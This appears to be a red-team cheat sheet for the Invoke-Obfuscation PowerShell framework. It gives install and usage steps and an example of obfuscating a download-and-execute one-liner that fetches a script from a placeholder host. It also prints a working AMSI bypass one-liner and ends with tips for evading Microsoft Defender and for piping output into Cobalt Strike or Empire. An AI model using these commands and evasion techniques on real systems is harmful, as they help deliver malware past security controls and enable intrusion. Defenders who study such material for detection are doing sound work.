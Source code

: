 # Invoke-Obfuscation Cheat Sheet (PowerShell Payload Evasion)

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a PowerShell obfuscation framework for evading static detection by AV/EDR systems. It transforms PowerShell scripts and one-liners into heavily obfuscated versions that retain full functionality.

---

## 💾 Installation

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
cd Invoke-Obfuscation
powershell.exe -exec bypass
```

---

## 🚀 Launching the Framework

```powershell
Import-Module .Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

You’ll be dropped into an interactive obfuscation prompt.

---

## 🧠 Core Workflow

1. Select your input type:
   - `command`
   - `function`
   - `scriptblock`
   - `module`

2. Choose obfuscation **token layer** (e.g., string, variable, command)
3. Apply **encoding/transformation layer**
4. Use `run` to output the obfuscated result

---

## 🔧 Obfuscation Examples

### Obfuscate a PowerShell One-Liner

```powershell
Command: IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/a.ps1')
```

Navigate:
```
[Command]> TOKENAll
[Command]> ENCODINGBase64
[Command]> RUN
```

---

### String Obfuscation Only

```
[Command]> TOKENString
[Command]> RUN
```

Transforms:
```powershell
"IEX"
```
Into:
```
([char]73)+([char]69)+([char]88)
```

---

## 🧪 Output Types

- Obfuscated string or entire command
- Can be piped directly to payloads:
  - Cobalt Strike
  - PowerShell Empire
  - Manual use

---

## 🔐 AMSI Consideration

Invoke-Obfuscation **does not bypass AMSI** directly. Pair with:

```powershell
$e=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$f=$e.GetField('amsiInitFailed','NonPublic,Static');$f.SetValue($null,$true)
```

---

## 🔄 Export to File

Once obfuscated, use:
```
[Command]> OUTPUTFile
[Command]> RUN
```

---

## 🧯 Tips for Red Team Use

- Use randomly generated variables to avoid pattern matches
- Chain multiple token obfuscation types (string + command + encoding)
- Avoid obvious URLs — use `char` arrays or reversed strings
- Test output against Defender and Defender for Endpoint (MDE)

---

## 🔍 Related Tools

- **Invoke-DOSfuscation**: CMD obfuscation
- **Obfuscation-Toolset**: Payload delivery + obfuscation scripts
- **AMSI-Sandbox-Evasion**: Context-aware delivery wrappers

---


